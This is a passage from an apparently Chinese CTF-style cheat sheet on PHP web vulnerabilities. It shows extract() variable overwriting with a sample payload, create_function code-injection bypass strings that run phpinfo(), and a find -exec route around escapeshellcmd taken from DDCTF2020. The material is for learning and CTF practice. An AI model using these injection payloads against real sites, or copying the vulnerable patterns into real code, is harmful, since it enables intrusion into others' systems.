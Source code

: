 可能存在变量覆盖漏洞

```php
<?php
$a = "Original";
$my_array = array("a" => "Cat","b" => "Dog", "c" => "Horse");
extract($my_array);
echo "$a = $a; $b = $b; $c = $c";
?>
```

例如:

```php
<?php
$flag = "xxx";
extract($_GET);
if (isset($gift)) {
    $content = trim($flag);
    if ($gift == $content) {
   echo "success";
    }
else {
 echo "failed";
}
}
?>
```

payload

```php
?flag=&gift=
```



#### 44.create_function

不用创建新函数来达到执行的目的，直接使用如下代码达到RCE

```php
create_function('', $_GET['code']);
```

具体场景中的绕过问题

```php
1. 如果可控在第一个参数，需要闭合圆括号和大括号：create_function('){}phpinfo();//', '');
2. 如果可控在第二个参数，需要闭合大括号：create_function('', '}phpinfo();//');
```





#### 45.find -exec 命令执行

最近碰到的DDCTF2020中用escapeshellcmd限制多行命令。由于escapeshellcmd限制，我们只能执行一条命令。但是find可以通过-exec执行命令。

```php
public function get_flag()
{
    return system('find /HackersForever ' . escapeshellcmd($this->flag));
}
```
